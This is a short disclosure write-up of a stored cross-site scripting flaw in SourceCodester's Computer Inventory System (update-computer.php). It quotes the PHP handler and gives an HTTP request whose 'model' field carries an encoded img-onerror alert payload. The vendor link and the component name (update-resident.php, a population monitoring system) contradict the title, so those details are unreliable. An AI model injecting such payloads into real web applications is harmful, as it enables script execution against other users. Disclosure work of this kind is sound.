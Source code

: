 # SOURCECODESTER / Computer Inventory System - update-computer.php STORED XSS

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://www.sourcecodester.com/php/17109/barangay-population-monitoring-system-using-php-mysql-and-chartjs-source-code.html

## Affected Component
> /endpoint/update-resident.php

## Code
```php
if (isset($_POST['model'], $_POST['serial_number'], $_POST['date_purchased'], $_POST['warranty_expiration'], $_POST['operating_system'], $_POST['ram'], $_POST['rom'])) {
        $computerID = $_POST['tbl_computer_id'];
        $model = $_POST['model'];
        $sn = $_POST['serial_number'];
        $datePurchased = $_POST['date_purchased'];
        $warrantyExpiration = $_POST['warranty_expiration'];
        $operatingSystem = $_POST['operating_system'];
        $ram = $_POST['ram'];
        $rom = $_POST['rom'];

        try {
            $stmt = $conn->prepare("UPDATE tbl_computer SET model = :model, serial_number = :serial_number, date_purchased = :date_purchased, warranty_expiration = :warranty_expiration, operating_system = :operating_system, ram = :ram, rom = :rom WHERE tbl_computer_id = :tbl_computer_id");

```

## Proof of Concept
**HTTP Request Example**
``` http request
POST /endpoint/update-computer.php HTTP/1.1
Host: [REDACTED]
Content-Type: application/x-www-form-urlencoded
Content-Length: 132

tbl_computer_id=7&model=%3E%3Cimg+src%3Dx+onerror%3Dalert%28%27NoChizPlz%27%29%3E&serial_number=696969&date_purchased=2024-02-01&warranty_expiration=2024-02-28&operating_system=Windows&ram=8&rom=8
```

## Screenshot


